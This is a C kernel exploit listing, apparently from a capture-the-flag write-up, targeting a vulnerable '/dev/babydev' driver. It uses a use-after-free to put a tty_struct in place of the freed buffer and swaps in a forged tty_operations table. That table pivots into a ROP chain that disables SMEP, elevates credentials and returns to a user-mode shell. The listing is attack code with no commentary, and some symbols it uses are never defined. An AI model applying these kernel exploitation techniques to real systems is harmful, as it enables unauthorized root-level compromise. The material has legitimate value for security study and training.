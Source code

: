 ```c

int main(){
	saveStatus();
	
	unsigned long long rop[0x20] = {0};
	int idx = 0;
	rop[idx++] = poprdi_ret;			// mov rdi, 6f0h
	rop[idx++] = 0x6f0;
	rop[idx++] = movcr4rdi_poprbp_ret;	// close SMEP
	rop[idx++] = 0;						// for pop rbp
	rop[idx++] = rise_cred;
	rop[idx++] = swapgs_poprbp_ret;		// ready to return to user mode
	rop[idx++] = 0;
	rop[idx++] = 0xffffffff814e35ef;
	rop[idx++] = shell;
	rop[idx++] = user_cs;
	rop[idx++] = user_rflags;
	rop[idx++] = user_sp;
	rop[idx++] = user_ss;
	
	unsigned long long fake_tty_struct[0x20];

	for(int i=0; i<0x10; i++)
		fake_tty_operations[i] = movrsprax_decebx_ret;
	fake_tty_operations[0] = poprax_ret;
	fake_tty_operations[1] = (unsigned long long)rop;
		
	int f1 = open("/dev/babydev", 2);
	int f2 = open("/dev/babydev", 2);
	ioctl(f1, 0x10001, 0x2e0);
	close(f1);
	
	int f3 = open("/dev/ptmx", 2|O_NOCTTY);
	
	read(f2, fake_tty_struct, 0x20);
	
	fake_tty_struct[3] = (unsigned long long)fake_tty_operations;		// change the tty_operations pointer to our fake pointer
	
	char buf[0x8] = {0};
	write(f2, fake_tty_struct, 0x20);
	
	write(f3, buf, 8);
	return 0;
}
```
